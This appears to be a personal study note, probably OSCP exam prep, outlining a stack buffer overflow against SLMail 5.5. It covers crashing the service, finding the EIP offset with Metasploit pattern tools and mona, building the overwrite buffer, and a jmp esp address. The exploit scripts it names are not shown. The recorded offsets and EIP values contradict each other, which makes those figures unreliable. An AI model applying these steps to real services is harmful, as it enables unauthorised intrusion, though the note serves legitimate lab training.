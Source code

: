 # Note

Note 1

`method is new`

_bold_ **bold** _**bold**_

```python
s = "Python syntax highlighting"
print s
```

**As Grace Hopper said:**

> I’ve always been more interested in the future than in the past.

[https://github.com/hyperreality/OSCP-Buffer-Overflow-in-30-minutes](https://github.com/hyperreality/OSCP-Buffer-Overflow-in-30-minutes) [https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/buffer-overflow](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/buffer-overflow) 

\(SLMail 5.5\) using jmp esp at 5f4a358f man asci i

## 1. Find bytes needed to crash service

```text
use python module: exam01.py 
```

​`Note: bytes = 3000`

## 2. Pattern create for finding exact spot

```text
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
!mona pc 3000 
use python module: exam02.py
```

`Note: EIP = 6E42366E`

## 3a. Pattern\_offset - Find Offset of EIP in Buffer

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 39694438  
!mona po e.g. 6E42366E
```

`Note: exact match at offset = 1189`

## 3b. Verify Verify exact location of EIP 

- \[\*\] Exact match at offset 1189 buffer = "A" \* 1189 + "B" \* 4 + "C" \* 90 Total = 3000, where slmail crashed

use python module: exam03.py !mona suggest

## 3c. Determine max buffer

 use python module: 3-jk\_poc02.py Send an extra large buffer buffer = "A" _2606 + "B"_ 4 + "C" \* \(3500 – 2606 - 4\) Note: 429 bytes free


